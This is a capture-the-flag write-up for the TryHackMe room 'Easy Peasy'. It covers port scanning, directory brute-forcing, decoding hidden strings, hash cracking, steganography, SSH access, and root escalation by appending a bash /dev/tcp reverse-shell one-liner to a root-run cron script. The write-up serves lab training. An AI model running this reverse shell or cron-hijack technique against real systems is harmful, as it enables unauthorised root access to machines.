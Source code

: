 ```yaml
---
layout: post
title: "Easy Peasy"
date: 2022-03-28
categories: [Tryhackme, Easy-THM]
tags: [nmap, cronjob, steganography, gobuster]
image: ../../assets/img/posts/EasyPeasy.png 

---
```


## Description

Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.

|**Room**|[Easy Peasy](https://tryhackme.com/room/easypeasyctf)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[kral4](https://tryhackme.com/p/kral4)|

---

Let's deploy the machine and we'll start with scanning open ports quickly with rustscan,

```bash
rustscan -a 10.10.140.17
```

![image](https://user-images.githubusercontent.com/67465230/160327198-c5e36fe4-1109-4f4b-bfb7-63582f24c820.png)

we got 3 open ports, Let's scan them using nmap,

```bash
nmap -sV -sC -p80,6498,65524 10.10.140.17 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/160327203-050f16e4-2a00-4cfd-8622-3c324a75f440.png)

Scan result reveals that port 80 is running nginx server, port 6498 is running ssh service and port 65524 is running apache webserver. Let's enumerate port 80.

Visit http://10.10.140.17,

![image](https://user-images.githubusercontent.com/67465230/160327217-632a3cd1-cd2c-4ddf-82b8-654972341e86.png)

we got a nginx webserver page. But there is nothing much I can find so I decided to find hidden directories using dirsearch,

```bash
dirsearch -u http://10.10.140.17 -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/160327224-655f1a99-0807-4b33-acf3-5710e8dfa3ba.png)

we found robots.txt file and a **hidden** directory.

Visit http://10.10.140.17/hidden,

![image](https://user-images.githubusercontent.com/67465230/160327231-e46d02e8-9f5e-4432-a3f1-b748a7153d7c.png)

we got a background image. Enumerating result in nothing gains. Again, finding hidden directories,

```bash
dirsearch -u http://10.10.140.17/hidden -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/160327236-e665c33b-8390-48b5-ba5c-6ae7ab6629c8.png)

we found the **whatever** directory.

Navigate to http://10.10.140.17/hidden/whatever and we got a blank page,

![image](https://user-images.githubusercontent.com/67465230/160327239-a8ce00a5-a612-4ab3-8e9e-4d6486fe98a6.png)

So checking its source code page reveals that there is a base64 encoded string.

We can decode this string using linux command,

```bash
echo ZmxhZ3tmMXJzN19mbDRnfQ== | base64 -d
```

![image](https://user-images.githubusercontent.com/67465230/160327242-4b867846-6643-44c9-982e-7804dc237bdc.png)

we got the flag. With this, we completed enumeration of port 80. Now, begin enumeration of port 65524.

Visit http://10.10.14017:65524,

![image](https://user-images.githubusercontent.com/67465230/160327249-560d447a-8ad8-4ef7-89ee-e6b1c5fb50af.png)

we got default apache webpage. There is not much on page itself, unless, we look at its source code.

Looking at the source code,

![image](https://user-images.githubusercontent.com/67465230/160327256-96e27ae0-efa4-4d39-aecd-52dd4a717fbc.png)

we got a string is which is encoded with some ba....? 

Visit [CyberChef](https://gchq.github.io/CyberChef) to figure out who is the encoder of this string,

![image](https://user-images.githubusercontent.com/67465230/160327269-29af0bcd-5da1-4867-9cd3-bcbae4e79761.png)

after trying all the base encoders, base62 seems worked in decoding this string and result in name of hidden directory.

Now, finding hidden directories using dirsearch,

```bash
dirsearch -u http://10.10.140.17:65524/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/160327272-5218eb6b-8fa5-45d9-b60c-6233ecc8588e.png)

we got robots.txt file.

Visit http://10.10.140.17:65524/robots.txt and we find a hash. So we can crack this hash on [md5hashing.net](https://md5hashing.net/hash/md5)

![image](https://user-images.githubusercontent.com/67465230/160327279-19aa1601-4b33-4438-853c-b8c9145a830f.png)
we got our flag.

There is also a flag hidden in the source code of the webpage of http://10.10.140.17:65524, we can extract it using, 

```bash
curl -s http://10.10.140.17:65524 | grep flag
```

![image](https://user-images.githubusercontent.com/67465230/160327285-a13a10a2-1cd8-4419-b7de-b22cc1e5d9e4.png)

we got our 3rd flag.

We got a hash of SHA-256 so we can crack it JTR,

```bash
john sha_256 --wordlist=easypeasy.txt --format=GOST
```

![image](https://user-images.githubusercontent.com/67465230/160327291-4cc01e33-7886-450e-af33-f547304141dc.png)

we got the password.

Navigating to http://10.10.140.17:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg,

![image](https://user-images.githubusercontent.com/67465230/160327297-9b25aacc-5133-4da1-a534-cb5c3ef5245f.png)

we found an image which is binary numbers are shown.

We can use steghide tool to extract information from this image,

```bash
steghide extract -sf binarycodepixabay.jpg
```

![image](https://user-images.githubusercontent.com/67465230/160327304-fe92048c-e3ed-443f-988f-2254426870d7.png)

Data is extracted to secrettext.txt.

Reading the content of file show that this is the binary data,

![image](https://user-images.githubusercontent.com/67465230/160327312-4a141de9-b9b1-45a9-9a4f-b46c2632a30a.png)

We can decode this data on cyberchef,

![image](https://user-images.githubusercontent.com/67465230/160327315-4e702d76-ba76-410c-980d-84aea4664311.png)

we got our password.

Lets drop into the machine via ssh,

```bash
ssh boring@10.10.140.17 -p 6498
```

![image](https://user-images.githubusercontent.com/67465230/160327321-d334e6f6-6dc2-4db8-8e05-3e7323faf4db.png)

we got access as boring user.

We got our user flag,

![image](https://user-images.githubusercontent.com/67465230/160327327-580596dc-5484-4ac6-a65e-400e274eb907.png)

Reading flag and it says that our flag is rotated,

![image](https://user-images.githubusercontent.com/67465230/160327337-a62d42d7-9cb4-4fb1-a2bf-e2493b9ff394.png)

when decoded with ROT13,

![image](https://user-images.githubusercontent.com/67465230/160327342-db027d34-691f-4ddc-93ca-b66ece005404.png)

we got our user flag.

Now comes the privilege escalation part. Checking the content of `/etc/crontab` file,

![image](https://user-images.githubusercontent.com/67465230/160327350-d2e6e5c4-15a3-415f-9c3a-6a6a72d8df69.png)

there a bash script **.mysecretcronjob.sh** in **/var/www** directory.

Navigating to /var/www directory and listing content,

![image](https://user-images.githubusercontent.com/67465230/160327352-9cc237b4-c0aa-4660-9628-6f655cc33c7f.png)

found the script which is readable-writable-executable by user.

reading content of the script,

![image](https://user-images.githubusercontent.com/67465230/160327362-49447662-e6b1-4fd2-8c42-a1bd48f01a30.png)

we got the idea that this script will run as root.

So we can put our one-liner shell and start a netcat listener and when this script run by cronjobs, we will get system shell.

Now, start netcat listener using `nc -nvlp 4444` and put the one liner bash shell into script,

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/10.9.0.182/4444 <&1'" >> .mysecretcronjob.sh
```

Reading the content of script again,

![image](https://user-images.githubusercontent.com/67465230/160328283-d5dc50b2-645b-4e44-9496-d020bb235ad6.png)

Now, when cronjobs executes this script, we got a shell,

![image](https://user-images.githubusercontent.com/67465230/160327389-25aecbfc-22d5-4a7b-bc39-6f84c745826f.png)

we got root shell.

Navigate to root directory and we got root flag which is hidden,

![image](https://user-images.githubusercontent.com/67465230/160327456-3c992650-2ba9-47a6-95a1-b12d09b9e337.png)